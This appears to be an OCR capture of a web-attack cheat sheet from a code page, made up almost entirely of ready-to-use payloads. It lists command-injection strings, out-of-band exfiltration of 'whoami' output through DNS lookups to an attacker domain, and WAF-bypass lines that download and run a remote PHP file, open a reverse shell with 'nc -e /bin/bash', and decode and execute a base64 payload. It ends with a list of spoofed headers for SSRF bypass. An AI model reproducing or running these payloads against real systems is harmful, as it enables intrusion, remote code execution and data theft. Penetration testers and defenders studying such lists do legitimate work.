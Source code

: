 Time Delay Commands
```bash
& ping -c 10 127.0.0.1 &
```

Redirecting Output
```bash
& whoami > /var/www/images/output.txt &
```
OOB (Out Of Band) Exploitation
```bash
& nslookup attacker-server.com &
& nslookup `whoami`.attacker-server.com &
```
WAF Bypasses
```bash
vuln=127.0.0.1 %0a wget https://evil.txt/reverse.txt -O 
/tmp/reverse.php %0a php /tmp/reverse.php
vuln=127.0.0.1%0anohup nc -e /bin/bash <attacker-ip> <attacker-port>
vuln=echo PAYLOAD > /tmp/payload.txt; cat /tmp/payload.txt | base64 -d > /tmp/payload; chmod 744 /tmp/payload; /tmp/payload
```

XSS Cheat Sheet:

https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html

SSRF Bypasses:

```
Base-Url: 127.0.0.1
Client-IP: 127.0.0.1
Http-Url: 127.0.0.1
Proxy-Host: 127.0.0.1
Proxy-Url: 127.0.0.1
Real-Ip: 127.0.0.1
Redirect: 127.0.0.1
Referer: 127.0.0.1
Referrer: 127.0.0.1
Refferer: 127.0.0.1
Request-Uri: 127.0.0.1
Uri: 127.0.0.1
Url: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Custom-IP-Authorization: 127.0.0.1
X-Forward-For: 127.0.0.1
X-Forwarded-By: 127.0.0.1
X-Forwarded-For-Original: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Forwarded-Host: 127.0.0.1
X-Forwarded-Port: 443
X-Forwarded-Port: 4443
X-Forwarded-Port: 80
X-Forwarded-Port: 8080
X-Forwarded-Port: 8443
X-Forwarded-Scheme: http
X-Forwarded-Scheme: https
X-Forwarded-Server: 127.0.0.1
X-Forwarded: 127.0.0.1
X-Forwarder-For: 127.0.0.1
X-Host: 127.0.0.1
X-Http-Destinationurl: 127.0.0.1
X-Http-Host-Override: 127.0.0.1
X-Original-Remote-Addr: 127.0.0.1
X-Original-Url: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-Proxy-Url: 127.0.0.1
X-Real-Ip: 127.0.0.1
```